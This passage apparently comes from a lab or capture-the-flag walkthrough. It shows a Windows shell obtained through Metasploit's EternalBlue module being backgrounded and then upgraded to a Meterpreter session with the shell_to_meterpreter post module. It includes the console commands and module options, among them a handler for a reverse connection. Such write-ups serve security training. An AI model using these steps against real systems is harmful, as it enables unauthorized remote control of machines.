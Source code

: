 ```bash

C:\Windows\system32>
```
{% endraw %}

<br />
Use control + z to background the session.

{% raw %}
```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
{% endraw %}

<br />
Search for shell_to_meterpreter to find a way to upgrade our shell to meterpreter.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```
{% endraw %}

<br />
Use the use command to use the exploit discovered in the search.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) >
```
{% endraw %}

<br />
Show the options for this exploit to discover what options are required.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.
```
{% endraw %}
